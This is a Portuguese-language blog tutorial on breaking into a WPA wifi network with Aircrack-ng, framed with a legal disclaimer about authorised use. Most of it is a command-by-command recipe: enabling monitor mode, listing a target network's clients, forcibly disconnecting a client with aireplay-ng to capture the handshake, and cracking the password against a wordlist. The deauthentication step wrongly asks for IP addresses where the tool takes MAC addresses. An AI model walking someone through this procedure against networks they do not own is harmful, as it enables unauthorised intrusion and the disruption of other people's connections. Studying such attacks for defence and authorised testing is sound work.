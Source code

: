 ```yaml
---
title:  "Invasão de Redes Wireless com Aircrack-NG"
categories: seguranca
tags: aircrack-ng wifi linux
image: aircrack-ng.png
description: Esse tutorial deve ser usado apenas para fins educativos em uma rede com devida autorização do proprietário.
---
```


### ATENÇÃO!

Esse tutorial deve ser usado apenas para fins educativos em uma rede com devida autorização do proprietário.

Invadir dispositivo alheio, conectado ou não a rede de computadores, mediante violação de segurança com o fim de obter informações sem autorização é crime. No Brasil, pode acarretar em 1 ano de reclusão e multa.

Aproveite este conhecimento para progredir de maneira justa e sem prejudicar outras pessoas.

## Requerimentos

Para a realização deste tutorial será necessário um computador com o Sistema Operacional Debian ou variantes e que a máquina possua placa de rede wireless ou adaptador wi-fi, e acesso _root_.

Também é necessário que você possua uma _wordlist_ disponível em seu ambiente.

### Informação

Wordlists são arquivos que possuem várias palavras frequentemente utilizadas.

Você pode escrever o seu próprio arquivo ou encontrar exemplos através de uma simples busca no Google.

Precisará também de um ponto de acesso wireless, no qual você não esteja conectado com a interface de teste.

Para ter certeza sobre a existência de interfaces wi-fi, faça a verificação:

```sh
iwconfig
```

Se o dispositivo estiver conectado, mas não for listado; inicie a interface:

```sh
ifconfig wlan0 up
```

Veja as redes que estão ao seu alcance:

```sh
iwlist wlan0 scanning
```

Anote o Mac Adress e o Canal da rede alvo, pois precisará deles na sequência.

## Instalação

Para monitorar e capturar pacotes de um cliente da rede, precisaremos do **Aircrack-ng**:

```sh
sudo apt-get update && sudo apt-get install aircrack-ng
```

## Iniciando o Monitoramento

Estando com o aircrack-ng instalado, podemos começar:

Matando processos que podem causar incompatibilidades

```sh
airmon-ng check kill
```

Iniciando o monitoramento

```sh
airmon-ng start wlan0
```

## Listando Clientes

Pegue os dados do seu alvo e insira-os nas opções entre chaves (apague as chaves depois), abaixo:

```sh
airodump-ng mon0 --bssid {MAC_ADDRESS} --channel {CHANNEL} --write wifi.test
```

Depois disso, o scanner lhe mostrará uma lista com todas as Wokstations (clientes) que estão conectados na rede.

## Capturando Dados

Abra um novo terminal, escolha uma workstation ativa e capture os pacotes dela (ela irá cair durante esse processo):

```sh
aireplay-ng -0 100 -a {GATEWAY IP} -c {WORKSTATION IP} mon0 --ignore-negative-one
```

## Descobrindo a Senha

Através dos dados capturados, tente descobrir a senha:

```sh
aircrack-ng wifi.test-01.cap -w wordlist.txt
```

## Como impedir esse tipo de invasão?

Sempre utilize senhas complexas combinando caracteres especiais, como **!@#$%¨&#038;*()_+§**, e se possível configure como oculto o SSID da rede (embora o Aircrack-ng detectá-la) para que ela não seja vista como um possível alvo de crackers.

## Atualização

Use **wifite** e poupe seu tempo!

